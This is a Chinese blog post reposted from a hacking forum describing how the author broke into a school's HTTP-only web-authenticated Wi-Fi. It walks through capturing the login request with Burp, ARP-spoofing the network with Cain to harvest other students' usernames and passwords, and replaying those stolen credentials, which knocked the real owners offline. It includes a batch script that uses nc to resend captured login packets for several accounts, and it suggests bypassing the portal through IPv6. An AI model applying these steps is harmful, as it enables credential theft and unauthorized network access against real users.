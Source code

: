 title: "非https协议web方式wifi认证突破"
id: 184
date: 2012-07-31 10:43:41
tags: 
- cain
- web wifi认证
- 嗅探
categories: 
- 技术文章
---

转自：法客 deleter

话说我是个游手好闲的人，趁着暑假四处游荡，投亲靠友。一日来到某校，看有wifi，如饥似渴的打算蹭个小网上上。做好字典破wpa，暴力破

wep的准备了都，连上wifi就傻眼了，web认证…

好吧，web认证。既然是web认证，少不了负责验证的服务器。经测试，随便输入一个网址后都会被重定向到A站的一个登陆页面。如果能做手

脚的话只能在这个页面上搞了。

know it then hack it。首先找到知情人士，得知开网要提前申请，并且此账户与mac绑定。这就给了我当头一棒。本来想着肯定有很多人密码

和用户名是一样的，而用户名又是学号，这样写个脚本暴力破解一个一个猜过去就行了。这样的话仅靠猜弱口令来登陆的话是不可能了。

既然输入网址能被重定向到一个页面，而且此页面所在的服务器是一个公网的ip，那么说，我肯定已经分配好ip了，仅差一个授权。

既然我已经有了一个ip，我就可以对所在的网段进行嗅探，如果能嗅探到登陆信息说不定还有点门路呢。

有了大致的思路，开工开工~

<!--more-->

首先开brup抓本地包。在登陆页面随便输入一个用户名和密码，被brup拦下。数据包内容如下：

```shell
POST /eportal/webgateuser.do?method=login_ajax_s26_in_out HTTP/1.1
Host: x.x.x.x
Proxy-Connection: keep-alive
Content-Length: 3864
Cache-Control: max-age=0
Origin: http://ooxx
User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/536.5 (KHTML, like Gecko) Chrome/19.0.1084.56 Safari/536.5
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,sdch
Accept-Language: zh-CN,zh;q=0.8
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Cookie: EPORTAL_COOKIE_USERNAME=3530393031323137; EPORTAL_COOKIE_PASSWORD=3530393031323137; JSESSIONID=77E5D178759BD74801C9FAF8D4B4933F

s=69c73394ffea3cc2453dfd4cff2af4a5&amp;t=wireless&amp;ssid=ad3c77575724aefa351ab6744a2a38a0&amp;apmac=6db3d4ac6fdf391878c2635b7bc531fb&amp;mac=56053fdf38ba0a3ba46ad1428f46fe61&amp;port=f8821b8335bb27ee&amp;url=f58cd7a67bbfecbcf3027f3e4bf7b380fb7aa95efe039033&amp;vid=&amp;net_access_type=internet&amp;username=deleter&amp;usernameHidden=deleter&amp;pwd=deleter&amp;seczone=&amp;validcode=no_check&amp;tipinfoHidden=%3Cdiv+style%3D%22border-right%3A+%23ddd476+1px+solid%3B+padding-right%3A+10px%3B+border-top%3A+%23ddd476+1px+solid%3B+padding-left%3A+10px%3B+padding-bottom%3A+10px%3B+border-left%3A+%23ddd476+1px+solid%3B+padding-top%3A+10px%3B+border-bottom%3A+%23ddd476+1px+solid%3B+height%3A+90px%3B+background-color%3A+%23fdfadd%3B+text-align%3A+left%22%3E%0D%0A%3Cp+style%3D%22text-align%3A+center%22%3E%3Cspan+style%3D%22font-weight%3A+bold%3B+font-size%3A+12px%3B+color%3A+%23daa517%3B+line-height%3A+20px%22%3E%E4%B8%8A%E7%BD%91%E8%AE%A4%E8%AF%81%E6%96%B9%E5%BC%8F%EF%BC%9A%3C%2Fspan%3E%3C%2Fp%3E%0D%0A%3Cp+style%3D%22color%3A+%2302ae0a%3B+line-height%3A+17px%3B+text-align%3A+center%22%3E%E5%85%81%E8%AE%B8Web%E8%AE%A4%E8%AF%81%E6%96%B9%E5%BC%8F%E5%8F%AF%E7%9B%B4%E6%8E%A5%E4%BD%BF%E7%94%A8%E6%9C%AC%E9%A1%B5%E9%9D%A2%E8%AE%A4%E8%AF%81%EF%BC%8C%E6%97%A0%E9%A1%BB%E4%B8%8B%E8%BD%BD%E5%AE%A2%E6%88%B7%E7%AB%AF%E8%AE%A4%E8%AF%81%E8%BD%AF%E4%BB%B6%3C%2Fp%3E%0D%0A%3Cp%3E%3C%2Fp%3E%0D%0A%3C%2Fdiv%3E%0D%0A%3Cdiv+style%3D%22margin-left%3A+15px%3B+margin-right%3A+15px%22%3E%0D%0A%3Cdiv%3E%0D%0A%3Cul%3E%0D%0A++++%3Cli%3E%E5%9C%A8%E8%BF%9B%E8%A1%8CWeb%E8%AE%A4%E8%AF%81%E4%B9%8B%E5%89%8D%EF%BC%8C%E5%BB%BA%E8%AE%AE%E5%85%88%E5%85%B3%E9%97%AD%E5%90%8E%E5%8F%B0%E7%9A%84%E5%BA%94%E7%94%A8%E8%BD%AF%E4%BB%B6%EF%BC%8C%E5%A6%82FTP%E3%80%81MSN%E7%AD%89%E7%AD%89%3C%2Fli%3E%0D%0A++++%3Cli%3E%E5%A6%82%E6%9E%9C%E5%87%BA%E7%8E%B0%E6%97%A0%E6%B3%95%E8%BF%9E%E6%8E%A5%E5%88%B0%E8%AE%A4%E8%AF%81%E9%A1%B5%E9%9D%A2%E7%9A%84%E6%83%85%E5%86%B5%EF%BC%8C%E5%BB%BA%E8%AE%AE%E5%85%88%E5%85%B3%E9%97%AD%E5%90%8E%E5%8F%B0%E7%9A%84%E5%BA%94%E7%94%A8%E8%BD%AF%E4%BB%B6%EF%BC%8C%E5%86%8D%E9%87%8D%E6%96%B0%E6%89%93%E5%BC%80%E6%B5%8F%E8%A7%88%E5%99%A8%3C%2Fli%3E%0D%0A++++%3Cli%3E%E5%A6%82%E6%9E%9C%E8%A6%81%E4%B8%8B%E7%BA%BF%EF%BC%8C%E8%AF%B7%E7%82%B9%E5%87%BB%E4%B8%8B%E7%BA%BF%E6%8C%89%E9%92%AE%EF%BC%8C%E7%84%B6%E5%90%8E%E5%86%8D%E5%85%B3%E9%97%AD%E6%B5%8F%E8%A7%88%E5%99%A8%E7%AA%97%E5%8F%A3%3C%2Fli%3E%0D%0A++++%3Cli%3E%E8%AE%A4%E8%AF%81%E6%88%90%E5%8A%9F%E5%90%8E%EF%BC%8C%E4%BC%9A%E6%9C%89%E6%A0%87%E9%A2%98%E4%B8%BA%E2%80%9CWeb%E8%AE%A4%E8%AF%81%E4%B8%8B%E7%BA%BF%E9%A1%B5%E9%9D%A2+%E8%AF%B7%E4%B8%8D%E8%A6%81%E5%85%B3%E9%97%AD%E8%AF%A5%E9%A1%B5%E9%9D%A2%E2%80%9D%E7%9A%84%E7%AA%97%E5%8F%A3%E5%BC%B9%E5%87%BA%EF%BC%8C%E8%AE%B0%E5%BD%95%E6%82%A8%E4%B8%8A%E7%BD%91%E7%9A%84%E4%BF%A1%E6%81%AF%EF%BC%9B%E5%A6%82%E6%9E%9C%E6%B2%A1%E6%9C%89%E5%BC%B9%E5%87%BA%EF%BC%8C%E8%AF%B7%E6%A3%80%E6%9F%A5%E6%B5%8F%E8%A7%88%E5%99%A8%E8%AE%BE%E7%BD%AE%EF%BC%8C%E5%85%B3%E9%97%AD%E5%BC%B9%E5%87%BA%E7%AA%97%E5%8F%A3%E6%8B%A6%E6%88%AA%E5%B7%A5%E5%85%B7%E3%80%82%3C%2Fli%3E%0D%0A%3C%2Ful%3E%0D%0A%3C%2Fdiv%3E%0D%0A%3Cul%3E%0D%0A++++%3Cli%3EBefore+carrying+out+Web+authentication+is+recommended+that+you+turn+off+background+applications%2C+such+as+FTP%2C+MSN%2C+etc.%3C%2Fli%3E%0D%0A++++%3Cli%3EIf+unable+to+connect+to+the+authentication+page%2C+it+is+recommended+to+close+the+back-end+application+software%2C+and+then+re-open+the+browser.%3C%2Fli%3E%0D%0A++++%3Cli%3EIf+you+want+offline%2C+please+click+the+offline+button%2C+and+then+close+the+browser+window.%3C%2Fli%3E%0D%0A++++%3Cli%3EAuthentication+is+successful%2C+there+will+be+titled+%22Web+authentication+page+off+the+assembly+line%2C+do+not+close+the+page%22+window+pops+up%2C+record+your+Internet+access+information%3B+If+there+are+no+pop-up%2C+please+check+your+browser+settings%2C+close+the+pop-up+blocker+tool.%3C%2Fli%3E%0D%0A%3C%2Ful%3E%0D%0A%3C%2Fdiv%3E%0D%0A%3Cp%3E%C2%A0%3C%2Fp%3E
```

按照打探得的消息，整个数据包有用的参数只有mac、username、usernameHidden、pwd，其他的大致都是与无线路由什么的有关。最后那段

长长的参数是url编码的数据，在成功联网后还蛋疼的decode了下，反正不是什么重要的信息。

准备工作做好了，那就开嗅吧。

因为尝试多次发现usernameHidden与username的值是相等的，且mac的值可以在嗅探器的url一栏里看到，所以打开cain，找到HTTP Fields，

在username field里只留下username，password field里只留下pwd。在cain中调到arp欺骗这一项，选几个顺眼的ip，开始等密码。不一会就得

到了好几组密码。

最开始以为无线网卡的mac地址必须改成与账号所对应的mac一样，但是苦于抓到包的参数中mac一项是经过加密的，貌似是MD5加密。但是拿着

自己的mac，猜了几种不同的形式，本地计算MD5，但都与数据包中的值不同。后来想了想，即使我猜对了mac的形式，我也不可能逆出mac啊…

没办法，硬着头皮把自己包中的mac、username、usernameHidden、pwd修改成嗅探得到的用户名密码以及mac部分的值，用brup发出去。

上百度测试一下，唔，成功连上了~

嗅探真是一个可怕的东东啊~

按照原理的话，对于web验证的wifi，只要登陆页面不是https加密的，我们就可以用这种方法进行突破，用其他人的账户密码上网。

总结：

首先本地抓包查找数据包中的有用以及必要的信息，接下来嗅探得可以进行授权认证的信息，最后修改数据包发送至服务器完成验证。

后记：

实际中发现，这个验证不能用于多个人。即我蹭网之后，原主人的网就掉了。没办法，我只能抓了好几个人的密码之后挨个试了，希望原主人正好

离开~

嫌麻烦，写了个批处理，用nc发包。附上代码：

```bat
@echo off
Title Wifi蹭网 by delete
echo *******************************************************************************
echo Wifi蹭网免验证 by delete
echo *******************************************************************************
echo 请从以下学号中选择一个：
echo 1\. Xxxxxx
echo 2\. Xxxxxx
echo 3\. Xxxxxx
echo 4\. Xxxxxx
echo 5\. Xxxxxx
echo 6\. Xxxxxx
set choice=
set /p choice=请选择:
if not &quot;%Choice%&quot;==&quot;&quot; set Choice=%Choice:~0,1%
if /i &quot;%choice%&quot;==&quot;1&quot; goto st1
if /i &quot;%choice%&quot;==&quot;2&quot; goto st2
if /i &quot;%choice%&quot;==&quot;3&quot; goto st3
if /i &quot;%choice%&quot;==&quot;4&quot; goto st4
if /i &quot;%choice%&quot;==&quot;5&quot; goto st5
if /i &quot;%choice%&quot;==&quot;6&quot; goto st6

:st1
nc -n xx.xx.xx.xx 80 &lt; ./data/st1.txt
goto end
:st2
nc -n xx.xx.xx.xx 80 &lt; ./data/st2.txt
goto end
:st3
nc -n xx.xx.xx.xx 80 &lt; ./data/st3.txt
goto end
:st4
nc -n xx.xx.xx.xx 80 &lt; ./data/st4.txt
goto end
:st5
nc -n xx.xx.xx.xx 80 &lt; ./data/st5.txt
goto end
:st6
nc -n xx.xx.xx.xx 80 &lt; ./data/st6.txt
goto end

:end
```

用法是将nc.exe放在该bat脚本同一目录下，并新建data文件夹，存放有不同账户对应的数据包的信息的txt文件。具体的命名什么的看一下脚本就懂了。

有个bug是运行到调用nc时，会卡在nc提交数据包得到返回的界面，不能自动结束。运行前还要先随便打开一个网页，以完成本机参数初始化…

再后来，日下了与验证网页所在服务器同网段的一台服务器，装上cain怎么嗅都嗅不到，甚是郁闷。Arp欺骗那里显示half routing，没有一个full

routing。而嗅探其他的服务器却不是这样的。莫非装了牛b的防火墙？求大牛解答~

还有一个更奇葩的问题，几天之后，当我再次想嗅探一下来获得更多的用户名密码的时候，开cain嗅探居然进行arp欺骗的时候劫持不到数据包，有

点想不通了。
最后废话一句，很多学校都已经支持ipv6了，我当前测试的无线路由是支持ipv6的。而登陆验证只限于ipv4，这样其实直接就能上ipv6的网的。网

上有很多ipv6转ipv4的方法，其中一个是sixxs.org，我个人觉得最好的是Veno2这个软件。有机会有条件的话大家不妨百度下具体的方法试试~
